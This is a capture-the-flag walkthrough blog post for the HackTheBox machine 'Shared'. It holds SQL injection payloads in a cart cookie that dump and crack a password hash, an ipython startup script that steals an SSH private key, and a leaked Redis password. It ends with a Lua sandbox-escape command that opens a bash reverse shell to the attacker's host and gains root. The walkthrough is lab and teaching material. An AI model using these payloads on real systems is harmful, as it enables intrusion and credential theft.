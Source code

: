 ```yaml
---
layout: post
title: "HTB: Shared"
author: Andrew Cherney
date: 2023-04-26 19:52:08
tags: htb medium-box linux webapp sqli 
icon: "assets/icons/shared.png"
post_description: "SQLi, ipython, and Redis (oh my). This box starts off with fuzzing a store page to find an SQLi where you get the password for a user. Next that user has access to a script testing/reviewing directory which could be exploited to run commands at another user. The cherry on top is the redis sandbox escape after finding a binary which leaked the redis password."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nmap -Pn 10.10.11.172
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-26 19:59 CDT
Nmap scan report for shared.htb (10.10.11.172)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/shared/front_page" alt="front_page" ext="png" trunc=600 %}

Seems this is some basic shop with essential functionality. I toss a couple items in my cart minding the url and parameters being passed. I see that on items there is a product id, a product attribute id, the item's name passed through a rewrite parameter, and a controller parameter which denotes product or cart.

![cart page](/img/shared/cart.png)

I head over to checkout and see that the checkout button goes to **checkout.shared.htb**. Quickly add that to my etc hosts file and try to checkout. 

![checkout page](/img/shared/checkout.png)

Before I begin fuzzing this page I make note that there are two cookies for the site. The first is a custom_cart cookie which holds JSON of the items I have and their quantity. The second seems to be encrypted, and although I found [this post about encryption vulnerabilities in PrestaShop](https://www.ambionics.io/blog/prestashop-privilege-escalation) I would rather save that for a last resort. 

<h1>User as james_mason</h1>

<h2>SQLi</h2>

Now onto burp suite and this credit card input. This payment portal isn't sending information and only returns a popup when clicking pay. But the product ID and quantity of items are controlled by a cookie here, meaning in theory I can inject some code into whatever handles the cookie information. 

I make a test cookie of %7B%22test%22%3A%221111%22%7D, which is **{"test":"1111"}** in json format. The response is Not Found from the product ID. I then try the payload **{"53GG2EF8' and '1'='1":"1111"}**, which to my surprise spits out the correct information. I mess around with some syntax and stumble across <code>{"53GG2EF8' and 1=1 union select null,null,null-- -":"1111"}</code> yielding a positive result. 

I refine my payload into the following <code>{"' and 1=1 union select null,version(),null-- -":"1111"}</code> where if I change where version() is I can inject my own queries. Now I can search for tables, read those tables, and hopefully find some credentials. 

```json
{"' and 1=1 union select null,database(),null-- -":"1111"}
Result: checkout

{"' and 1=1 union select null,table_name,table_schema from information_schema.tables where table_schema='checkout'-- -":"1"} 
Result: user

{"' and 1=1 union select null,username,null from checkout.user-- -":"1111"}
Result: james_mason

{"' and 1=1 union select null,password,null from checkout.user where username = 'james_mason'-- -":"1111"}
Result: fc895d4eddc2fc12f995e18c865cf273
```

I toss that password into crackstation and got out **Soleil101**. Here's to praying ssh works. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $ssh james_mason@shared.htb
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$ cat user.txt
cat: user.txt: No such file or directory
```

<h1>User as dan_smith</h1>

<h2>ipython</h2>

First thing I notice is the developer group.

```bash
james_mason@shared:/home$ find / -group developer 2>/dev/null
/opt/scripts_review
james_mason@shared:/opt$ ls -al
total 12
drwxr-xr-x  3 root root      4096 Jul 14  2022 .
drwxr-xr-x 18 root root      4096 Jul 14  2022 ..
drwxrwx---  2 root developer 4096 Jul 14  2022 scripts_review
```

Seems I can edit files in this opt directory named scripts_review. I'll keep digging till I find why this directory exists. The tldr is that ipython probably uses it, ipython is run by either dan_smith or root (probably dan as ipython is in his home directory), and I found [this advisory about running code as another user](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x). If I create two directories named profile_default/startup then I can place scripts inside of the startup directory for them to run as dan_smith. 

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default;mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("cat ~/.ssh/id_rsa > /tmp/raccoon")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared:/opt/scripts_review$ cat /tmp/raccoon 
-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $chmod 400 shared.key 
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $ssh dan_smith@shared.htb -i shared.key 
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ cat user.txt
0f2a5ed8548---------------------
```

<h1>Root</h1>

<h2>Redis</h2>

In the id command we see I am a part of the sysadmin group, so round 2 for looking for files owned by a group. 

```bash
dan_smith@shared:/usr/local/bin$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
dan_smith@shared:/usr/local/bin$ redis_connector_dev 
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:4403
run_id:edb16a569462be765c207c082c946cc7d62d2f41
tcp_port:6379
uptime_in_seconds:13
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:4843839
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```

That file is a binary and I fear I need to sift through it with ghidra to determine what it does and how to exploit it. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $scp -i shared.key dan_smith@shared.htb:/usr/local/bin/redis_connector_dev .
```

Before I begin to dig through this I did decide try and run this on my local machine to see what information it sends out.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nc -nvlp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60178
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

That looks suspiciously like a password at the bottom line. I'll try to login with this for the redis-cli.

```bash
dan_smith@shared:/usr/local/bin$ redis-cli -a F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> 
```

With an authenticated terminal in theory if this were vulnerable I could abuse it. I tossed a secret sequence of words to find a CVE: "redis rce poc github" and found [CVE-2022-0543 which is a Lua sandbox escape RCE](https://github.com/JacobEbben/CVE-2022-0543). I'll use a reverse shell to get root out of this rce.

```bash
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -c \'bash -i >& /dev/tcp/10.10.14.5/7777 0>&1\'", "r"); local res = f:read("*a"); f:close(); return res' 0
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.172] 59620
bash: cannot set terminal process group (5550): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# id
id
uid=0(root) gid=0(root) groups=0(root)
root@shared:/var/lib/redis# cat /root/root.txt
cat /root/root.txt
256c100c5-----------------------
```


